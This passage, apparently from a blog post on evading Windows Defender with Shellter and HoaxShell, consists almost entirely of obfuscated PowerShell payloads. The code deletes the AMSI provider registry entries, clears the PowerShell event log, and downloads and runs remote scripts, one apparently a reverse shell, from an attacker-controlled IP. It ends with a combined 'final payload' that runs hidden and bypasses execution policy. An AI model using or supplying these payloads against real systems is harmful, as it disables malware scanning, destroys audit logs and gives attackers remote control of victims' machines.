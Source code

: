 ![](/assets/img/defender-evasion-shellter-hoaxshell/Invoke-Obfuscation2.png)
```powershell
Remove-Item -Path (('HKLM:DGvS'+'OFTWARE'+'D'+'GvMic'+'rosoftDGv'+'A'+'MS'+'IDG'+'vProviders*DGv'+'*') -CreplaCE  'DGv',[chAR]92) -Force -ea SilentlyContinue; Clear-EventLog -LogName ('Wind'+'ows Pow'+'erS'+'hell') -ea SilentlyContinue
```
![](/assets/img/defender-evasion-shellter-hoaxshell/Invoke-Obfuscation1.png)
```powershell
iex(New-Object Net.WebClient).DownloadString(('http://192.168.1'+'8'+'2.1'+'2'+'8'+'/4m51.'+'p'+'s'+'1')); Remove-Item -Path (('HKL'+'M:{0}'+'SOF'+'TWARE{0}M'+'icro'+'sof'+'t{0}'+'A'+'MSI{'+'0}Pr'+'o'+'viders*{'+'0}*') -f [cHAR]92) -Force -ea SilentlyContinue; Start-Sleep -Seconds 30; iex(New-Object Net.WebClient).DownloadString(('http://'+'192.168.1'+'82.'+'12'+'8/revs'+'.ps1')); Clear-EventLog -LogName ('Windo'+'ws Po'+'w'+'er'+'Shell') -ea SilentlyContinue
```
So, the final payload was:
```powershell
cmd /c start /wait /min "" C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop -w hidden -noni -c "Remove-Item -Path (('HKLM:DGvS'+'OFTWARE'+'D'+'GvMic'+'rosoftDGv'+'A'+'MS'+'IDG'+'vProviders*DGv'+'*') -CreplaCE  'DGv',[chAR]92) -Force -ea SilentlyContinue; Clear-EventLog -LogName ('Wind'+'ows Pow'+'erS'+'hell') -ea SilentlyContinue" & cmd /c start /min "" C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -nop -w hidden -noni -c "iex(New-Object Net.WebClient).DownloadString(('http://192.168.1'+'8'+'2.1'+'2'+'8'+'/4m51.'+'p'+'s'+'1')); Remove-Item -Path (('HKL'+'M:{0}'+'SOF'+'TWARE{0}M'+'icro'+'sof'+'t{0}'+'A'+'MSI{'+'0}Pr'+'o'+'viders*{'+'0}*') -f [cHAR]92) -Force -ea SilentlyContinue; Start-Sleep -Seconds 30; iex(New-Object Net.WebClient).DownloadString(('http://'+'192.168.1'+'82.'+'12'+'8/revs'+'.ps1')); Clear-EventLog -LogName ('Windo'+'ws Po'+'w'+'er'+'Shell') -ea SilentlyContinue"
```